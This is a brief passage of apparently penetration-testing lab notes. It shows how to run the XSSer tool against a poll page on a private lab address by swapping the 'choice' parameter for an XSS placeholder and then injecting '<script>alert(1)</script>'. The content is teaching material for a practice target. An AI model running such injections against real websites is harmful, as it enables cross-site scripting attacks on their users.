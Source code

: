 - Perform an XSS Poll Question attack over `GET` request
  - `http://192.131.167.3/index.php?page=user-poll.php`
  - copy the `URL`, replace the `nmap` value with **`XSS`** and pass it to XSSer
    - `http://192.131.167.3/index.php?page=user-poll.php&csrf-token=&choice=nmap&initials=2&user-poll-php-submit-button=Submit+Vote`

```bash
xsser --url "http://192.131.167.3/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=2&user-poll-php-submit-button=Submit+Vote"
```

![](.gitbook/assets/image-20230505002804916.png)

```bash
xsser --url "http://192.131.167.3/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=2&user-poll-php-submit-button=Submit+Vote" --Fp "<script>alert(1)</script>"
```

![](.gitbook/assets/image-20230505002847054.png)
